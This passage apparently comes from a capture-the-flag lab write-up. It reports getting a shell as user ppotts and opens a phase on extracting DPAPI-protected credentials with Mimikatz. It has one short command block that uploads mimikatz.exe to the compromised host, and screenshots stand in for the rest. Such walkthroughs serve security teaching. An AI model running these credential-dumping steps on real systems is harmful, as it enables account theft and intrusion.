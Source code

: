 ![msf_result](images/Office25.png)

We got a shell as ppotts!

### Phase 12: DPAPI Credential Extraction with Mimikatz

Now after enumerating machine I found that there're credentials stored but they are hidden within dpapi and we will use mimikatz to retrieve them.

```bash
cd ../../../Users/Public
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

Now we have to find credential blobs and masterkeys:

![msf_result](images/Office26.png)
![msf_result](images/Office27.png)
